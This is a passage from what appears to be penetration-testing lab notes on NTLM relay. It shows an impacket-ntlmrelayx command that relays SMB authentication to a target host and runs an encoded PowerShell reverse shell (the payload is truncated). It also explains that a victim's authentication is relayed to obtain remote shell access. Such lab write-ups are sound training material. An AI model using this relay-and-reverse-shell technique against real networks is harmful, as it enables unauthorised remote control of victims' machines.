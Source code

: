 We can create a PowerShell reverse shell using [https://www.revshells.com/](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64).

```shell
lojique@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAd...'
```

Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell.

<figure><img src="../../.gitbook/assets/Pasted image 20230601165148.png" alt=""><figcaption></figcaption></figure>
